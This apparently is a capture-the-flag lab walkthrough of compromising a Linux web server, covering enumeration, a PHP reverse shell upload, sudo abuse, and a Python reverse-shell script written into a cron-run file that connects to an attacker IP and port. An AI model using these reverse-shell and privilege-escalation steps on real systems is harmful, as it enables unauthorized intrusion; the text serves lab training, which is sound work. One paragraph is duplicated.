We begin by performing a port scan to identify which services are available:



We identify that port **80** is open, which immediately suggests we are dealing with an HTTP server. Next, we analyze the services and versions associated with this port to understand what we're working with:



As part of my analysis methodology, I like to anticipate potential attack vectors by enumerating subdirectories early on. For this, I typically use **Gobuster**, as it’s fast and allows for manual control:



We discover subdirectories like `/images` and `/uploads`, which hint at a potential file upload vector. However, before jumping into exploitation, we visit these subdomains to gather more information:



Among the subdirectories, `/dev` stands out. Within it, we find `phpbash.php` — a web-based Bash emulator designed for easier directory interaction. This gives us an excellent opportunity to elevate privileges and establish remote access. From here, we move to the `/uploads` directory and attempt to deliver a PHP reverse shell, assuming `.php` file execution is allowed:



We use a basic PHP reverse shell script and, through our pseudo-terminal, perform a brief reconnaissance to prepare the environment. Then we upload the shell by setting up a listener using `nc` (netcat), and configure it to only transfer the reverse shell script:





From the pseudo-terminal, we make the request to download the reverse shell script into `/var/www/html/uploads:`  



Afterward, we execute the uploaded script via the browser and start listening on the configured port to catch the reverse connection. It’s important to edit the PHP shell beforehand to insert your own IP and listening port:

Afterward, we execute the uploaded script via the browser and start listening on the configured port to catch the reverse connection. It’s important to edit the PHP shell beforehand to insert your own IP and listening port:



Once we receive the connection, we treat the TTY session to stabilize the shell and make it more usable (e.g., support for `tab` completion, `clear`, `nano`, etc.). The commands used for TTY stabilization are:

`bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo ; fg
reset
xterm
export TERM=xterm
export SHELL=bash`

With a stable shell, we proceed to privilege escalation. Since we previously enumerated the system via the web terminal, we now focus on identifying ways to escalate from the current www-data user, which has limited privileges.

We check for available sudo permissions and discover that we can execute commands as scriptmanager without a password. This allows us to escalate privileges using:

bash
Copy
Edit
sudo -u scriptmanager bash -i



From here, we explore the file system with ls -la / and notice a directory named /scripts. Inside, we find a writable script. We attempt to modify it to spawn a reverse shell using Python and connect back to our system on a new listener port:

bash
Copy
Edit
echo 'import socket,subprocess,os' > /scripts/test.py
echo 's=socket.socket(socket.AF_INET, socket.SOCK_STREAM)' >> /scripts/test.py
echo 's.connect(("10.10.14.21", 9001))' >> /scripts/test.py
echo 'os.dup2(s.fileno(),0)' >> /scripts/test.py
echo 'os.dup2(s.fileno(),1)' >> /scripts/test.py
echo 'os.dup2(s.fileno(),2)' >> /scripts/test.py
echo 'p=subprocess.call(["/bin/sh", "-i"])' >> /scripts/test.py


After executing this script, we successfully receive a reverse shell as root on our listener:


Finally, we navigate to /home/arrexel to retrieve the user.txt flag, which is readable with a simple cat command:


